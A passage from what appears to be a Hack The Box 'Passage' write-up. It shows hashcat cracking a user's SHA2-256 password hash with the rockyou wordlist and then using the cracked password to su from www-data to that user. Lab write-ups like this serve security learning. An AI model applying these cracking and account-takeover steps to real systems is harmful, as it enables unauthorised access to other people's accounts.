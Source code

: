 




I then searched for the SHA modes on hashcat.

```sh
kali@kali-[~/boxes/htb/passage]$hashcat -h | grep SHA
    100 | SHA1                                             | Raw Hash
   1300 | SHA2-224                                         | Raw Hash
   1400 | SHA2-256                                         | Raw Hash
  10800 | SHA2-384                                         | Raw Hash
   1700 | SHA2-512                                         | Raw Hash
  17300 | SHA3-224                                         | Raw Hash
  17400 | SHA3-256                                         | Raw Hash
  17500 | SHA3-384                                         | Raw Hash
  17600 | SHA3-512                                         | Raw Hash
```


Hashcat was able to crack paul's password but not nadav's.

```sh
kali@kali-[~/tools/priv_esc/PEASS-ng/linPEAS]$hashcat -m 1400 -a 0 paul.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

.....

e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA2-256
Hash.Target......: e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb4...7273cd
Time.Started.....: Mon Jan  3 17:39:54 2022 (0 secs)
Time.Estimated...: Mon Jan  3 17:39:54 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   495.7 kH/s (0.46ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: newzealand -> whitetiger

Started: Mon Jan  3 17:39:53 2022
Stopped: Mon Jan  3 17:39:56 2022

```


Using this password I was able to su to paul.

```sh
www-data@passage:/etc/fail2ban/action.d$ su paul
su paul
Password: atlanta1

paul@passage:/etc/fail2ban/action.d$ 
```
